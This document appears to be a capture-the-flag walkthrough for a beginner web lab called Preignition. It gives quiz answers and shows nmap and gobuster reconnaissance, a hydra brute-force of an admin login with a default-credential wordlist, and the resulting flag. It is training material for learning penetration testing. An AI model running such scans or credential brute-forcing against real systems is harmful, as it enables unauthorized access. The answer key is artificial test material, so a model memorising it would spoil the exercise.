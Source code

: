# Preignition

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: Web, Custom Applications, Apache, Reconnaissance, Web Site Structure Discovery, Default Credentials
- **Tools**: nmap, gobuster


# Walkthrough

## Task 1: Directory Brute-forcing is a technique used to check a lot of paths on a web server to find hidden pages. Which is another name for this? (i) Local File Inclusion, (ii) dir busting, (iii) hash cracking.

> **Answer**: dir busting

## Task 2: What switch do we use for nmap's scan to specify that we want to perform version detection

> **Answer**: -sV

## Task 3: What does Nmap report is the service identified as running on port 80/tcp?

```bash
> nmap -sV -p 80 10.129.199.239
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 13:07 AEST
Nmap scan report for 10.129.199.239
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
```

> **Answer**: http

## Task 4: What server name and version of service is running on port 80/tcp?

> **Answer**: nginx 1.14.2

## Task 5: What switch do we use to specify to Gobuster we want to perform dir busting specifically?

> **Answer**: dir

## Task 6: When using gobuster to dir bust, what switch do we add to make sure it finds PHP pages?

> **Answer**: -x php

## Task 7: What page is found during our dir busting activities?

```bash
> gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://10.129.199.239 -x php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.199.239
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/07/11 13:11:36 Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 200) [Size: 999]
```

> **Answer**: admin.php

## Task 8: What is the HTTP status code reported by Gobuster for the discovered page?

> **Answer**: 200

# Submit Root Flag

We can try some basic default credentials here using `hydra`. `hydra` is a very fast network logon cracker which supports many different services.
For this we need a wordlist to supply `hydra` with the username + passwords. You can find wordlists online or generate your own as is done in the steps below.

- **NOTE**: You can follow this [tutorial](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/) to learn how to find the correct post-form details.

```bash
# Generate a basic wordlist
> cat << EOF > wordlist.txt
admin:password
root:root
root:admin
user:user
user:password
admin:admin
EOF

# Find the Post-Form details
# Running a failed login against the site whilst viewing the network tab in the developer console shows us
# that the post-form details we require are as follows:
# URL: http://10.129.199.239/admin.php
# Method: POST
# Form Data: { "username": "<USER>", "password": "<PASS>" }
# NOTE: You can also use BurpSuite to find this

# Run hydra against the target server
# We can use the `-C` flag to tell hydra we're passing it a username:password list
# We provide the 'Wrong username or password' string which the site presents in the case of an invalid password
> hydra -C wordlist.txt 10.129.199.239 http-post-form "/admin.php:username=^USER^&password=^PASS^:Wrong username or password"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-11 13:44:49
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries, ~1 try per task
[DATA] attacking http-post-form://10.129.199.239:80/admin.php:username=^USER^&password=^PASS^:Wrong username or password

[80][http-post-form] host: 10.129.199.239   login: admin   password: admin

1 of 1 target successfully completed, 1 valid password found

```

> **Answer**: 6483bee07c1c1d57f14e5b0717503c73


